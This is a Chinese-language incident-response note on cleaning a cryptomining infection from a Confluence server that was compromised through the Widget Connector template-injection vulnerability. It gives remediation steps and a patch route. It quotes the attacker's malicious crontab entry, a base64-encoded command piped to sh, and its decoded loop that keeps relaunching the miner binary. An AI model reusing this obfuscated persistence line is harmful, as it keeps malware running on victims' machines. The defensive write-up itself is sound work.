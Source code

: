 ## confluence挖矿病毒

### 一、问题描述

- 安装的confluence的机子,服务器CPU达到100%，服务器进行排查，top发现有不知名进程占用大量CPU，出现很多乱码的进程。kill 进程后，隔了几分钟CPU再次飙高。



### 二、解决办法

#### 1.封掉外网HTTP 端口

- 使用云控制台 安全组 设置80端口不允许访问。或者使用防火墙。

#### 2.查杀进程

- 使用命令：top 查看pid 并使用 kill -9 ‘pid’  
-  查杀完成之后，发现进程一直在启动

#### 3.查看否已经写到计划任务

- 查看定时任务
  - crontab -l    （没有先关信息，想到前面用top看 user 是conference1用户，应该没提权到root）
- 再次查看特定的用户： 
  - crontab -l -u confluence1 查看  （此处的confluence1是前面top看到的不知名进程和乱码进程的启动用户）

```bash
查到了相关的恶意计划任务
[root@test tmp]# crontab -l -u  confluence1
* * * * * echo -n  "KCB3aGlsZSA6IDsgZG8gc2xlZXAgNSA7IGlmICEga2lsbCAtMCAyNTQ0MyA+L2Rldi9udWxsIDI+JjEgOyB0aGVuIC9vcHQvYXRsYXNzaWFuL2NvbmZsdWVuY2UvdGVtcC9kZW5mdHYgPi9kZXYvbnVsbCAyPiYxIDsgZmkgOyBkb25lICkgJiBwaWQ9JCEgOyAoc2xlZXAgMTAgJiYga2lsbCAtOSAkcGlkKSAm" | base64 -d | sh >/dev/null 2>&1
base64 解密为：
( while : ; do sleep 5 ; if ! kill -0 25443 >/dev/null 2>&1 ; then /opt/atlassian/confluence/temp/denftv >/dev/null 2>&1 ; fi ; done ) & pid=$! ; (sleep 10 && kill -9 $pid) &
是一个死循环。

进入相应目录查看，也会发现多了一个confluence目录文件
ll /var/spool/cron/confluence
```

#### 4.杀死定时任务

1. 使用命令：crontab -r -u confluence1
2. 也可以使用：cd /var/spool/cron/confluence;  >confluence  清空防止差生新的进程

- 再次查看是否有新的定时任务生成
  - crontab -l -u confluence1 

#### 5.清除/tmp/下所有confluence1用户创建的目录

- 该目录为病毒文件

#### 6.清除/opt/atlassian/confluence/temp/ 下所有confluence1用户创建的目录

- 应该是攻击confluence 的病毒文件

#### 7.升级confluence

- 安全建议：以下任选一种皆可修复漏洞

  a.升级至安全版本。下载链接：[download](https://www.atlassian.com/software/confluence/download/data-center)

  b升级Widget Connector 组件。下载链接：[download](https://packages.atlassian.com/maven-public/com/atlassian/confluence/extra/widgetconnector/widgetconnector/)

- Linux系统运行如下命令查找widgetconnector-*.jar文件所在位置：

  > find / -name "widgetconnector-*"
  >
  > /opt/atlassian/confluence/confluence/WEB-INF/atlassian-bundled-plugins/widgetconnector-5.0.1.jar
  >
  > 下载最新版本的widgetconnector-*.jar替换，并重启Confluence应用

- 选用的是 b 方案 替换 jar 替换目录为 /opt/atlassian/confluence/confluence/WEB-INF/lib

#### 8.检查

- 完成这些后检查/tmp/ 和/opt/atlassian/confluence/temp/  还有crontab -l -u confluence1 是否有新的病毒文件或任务生成，有就再次删除。

#### 9.重启服务器，并再次运行confluence

- 服务器起来查看是否还有confluence1的乱码进程。



### 三、病毒来源：

- 官方发布了预警，于是开始了漏洞应急。漏洞描述中指出Confluence Server与Confluence数据中心中的Widget连接器存在服务端模板注入漏洞，攻击者能利用此漏洞能够实现目录穿越与远程代码执行。
- 涉及版本
  - 涉及版本：影响版本6.6.7之前的所有版本的Confluence Server和Confluence数据中心，6.8.5之前的版本6.7.0（6.8.x的固定版本），6.9.3之前的6.9.0版本（6.9的固定版本）

